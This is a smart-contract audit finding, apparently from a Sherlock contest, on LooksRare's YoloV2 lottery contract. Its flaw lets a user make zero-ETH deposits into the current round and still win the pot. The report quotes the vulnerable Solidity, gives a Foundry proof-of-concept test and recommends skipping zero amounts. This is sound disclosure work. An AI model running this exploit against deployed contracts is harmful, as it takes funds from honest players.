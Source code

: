 Active Midnight Hyena

high

# Users can win rounds without risking any funds

## Summary

The `depositETHIntoMultipleRounds` function allows you to participate in rounds and therefore probably win the round without risking any funds by depositing zero ether.

## Vulnerability Detail

Here we can see the `depositETHIntoMultipleRounds` function, that calls the `depositETHIntoMultipleRounds` function, which gets the entry index from the `_getCurrentEntryIndexWithoutAccrual` function:

```solidity
function depositETHIntoMultipleRounds(uint256[] calldata amounts) external payable nonReentrant whenNotPaused {
    uint256 numberOfRounds = amounts.length;
    if (msg.value == 0 || numberOfRounds == 0) {
        revert ZeroDeposits();
    }

    uint256 startingRoundId = roundsCount;
    Round storage startingRound = rounds[startingRoundId];
    _validateRoundIsOpen(startingRound);

    _setCutoffTimeIfNotSet(startingRound);

    uint256 expectedValue;
    uint256[] memory entriesCounts = new uint256[](numberOfRounds);

    for (uint256 i; i < numberOfRounds; ++i) {
        uint256 roundId = _unsafeAdd(startingRoundId, i);
        Round storage round = rounds[roundId];
        uint256 roundValuePerEntry = round.valuePerEntry;
        if (roundValuePerEntry == 0) {
            (, , roundValuePerEntry) = _writeDataToRound({roundId: roundId, roundValue: 0});
        }

        _incrementUserDepositCount(roundId, round);

        uint256 depositAmount = amounts[i];
        if (depositAmount % roundValuePerEntry != 0) {
            revert InvalidValue();
        }
        uint256 entriesCount = _depositETH(round, roundId, roundValuePerEntry, depositAmount);
        expectedValue += depositAmount;

        entriesCounts[i] = entriesCount;
    }

    if (expectedValue != msg.value) {
        revert InvalidValue();
    }

    emit MultipleRoundsDeposited(msg.sender, startingRoundId, amounts, entriesCounts);

    if (
        _shouldDrawWinner(
            startingRound.numberOfParticipants,
            startingRound.maximumNumberOfParticipants,
            startingRound.deposits.length
        )
    ) {
        _drawWinner(startingRound, startingRoundId);
    }
}

function _depositETH(
    Round storage round,
    uint256 roundId,
    uint256 roundValuePerEntry,
    uint256 depositAmount
) private returns (uint256 entriesCount) {
    entriesCount = depositAmount / roundValuePerEntry;
    uint256 roundDepositCount = round.deposits.length;

    _validateOnePlayerCannotFillUpTheWholeRound(_unsafeAdd(roundDepositCount, 1), round.numberOfParticipants);

    uint40 currentEntryIndex = _getCurrentEntryIndexWithoutAccrual(round, roundDepositCount, entriesCount);

    ...
}

function _getCurrentEntryIndexWithoutAccrual(
    Round storage round,
    uint256 roundDepositCount,
    uint256 entriesCount
) private view returns (uint40 currentEntryIndex) {
    if (roundDepositCount == 0) {
        currentEntryIndex = uint40(entriesCount);
    } else {
        currentEntryIndex = uint40(
            round.deposits[_unsafeSubtract(roundDepositCount, 1)].currentEntryIndex + entriesCount
        );
    }
}
```

As we can see there is no check to prevent zero amount deposits and depositing zero ether will increase the deposit array and give the deposit the current entry index.

This enables the following attack path:

- Any user deposits funds into the currently running round.
- The attacker deposits zero ether into the currently running round and receives the last index of the honest user's deposit by doing so.
- This can be repeated on every deposit of another user.

Therefore the attacker can win the round without risking any funds.

The following POC can be implemented in the `Yolo.drawWinner.t.sol` test file. The following import must be added to run the test: \
`import {VRFConsumerBaseV2} from "@chainlink/contracts/src/v0.8/VRFConsumerBaseV2.sol";`.

```solidity
function test_winWithZeroDeposit() public {
    // the following import must be added to run this test:
    // import {VRFConsumerBaseV2} from "@chainlink/contracts/src/v0.8/VRFConsumerBaseV2.sol";

    vm.deal(user1, 1 ether);
    vm.deal(user2, 1 ether);
    vm.deal(user3, 1 ether);

    // deposit into multiple rounds array to buy 0 entries for the current round and 1 for the next round
    uint256[] memory amounts = new uint256[](2);
    amounts[0] = 0 ether;
    amounts[1] = 0.01 ether;

    // user2 buys one entry for the current round
    vm.prank(user2);
    yolo.deposit{value: 0.01 ether}(1, _emptyDepositsCalldata());

    // user1 buys zero entries for the current round and 1 for the next round
    vm.prank(user1);
    yolo.depositETHIntoMultipleRounds{value: 0.01 ether}(amounts);

    // user3 buys one entry for the current round
    vm.prank(user3);
    yolo.deposit{value: 0.01 ether}(1, _emptyDepositsCalldata());

    // user1 buys zero entries for the current round and 1 for the next round
    vm.prank(user1);
    yolo.depositETHIntoMultipleRounds{value: 0.01 ether}(amounts);

    vm.warp(block.timestamp + ROUND_DURATION);
    yolo.drawWinner();

    uint256[] memory randomWords = new uint256[](1);
    randomWords[0] = 1;

    vm.prank(VRF_COORDINATOR);
    VRFConsumerBaseV2(yolo).rawFulfillRandomWords(FULFILL_RANDOM_WORDS_REQUEST_ID, randomWords);

    (
        ,
        ,
        ,
        ,
        ,
        ,
        address winner,
        ,
        ,
        IYoloV2.Deposit[] memory deposits
    ) = yolo.getRound(1);

    // 4 deposits in the array but only 2 are non-zero
    assertEq(deposits.length, 4);

    // user1 won the round without risking any ETH
    assertEq(winner, user1);
}
```

## Impact

Users can participate in rounds without risking any funds and therefore steal funds from other users.

## Code Snippet

https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L312-L362

https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L1428C36-L1428C71

https://github.com/sherlock-audit/2024-01-looksrare/blob/main/contracts-yolo/contracts/YoloV2.sol#L1651-L1663

## Tool used

Manual Review

## Recommendation

Continue the loop if the given ether deposit amount is zero.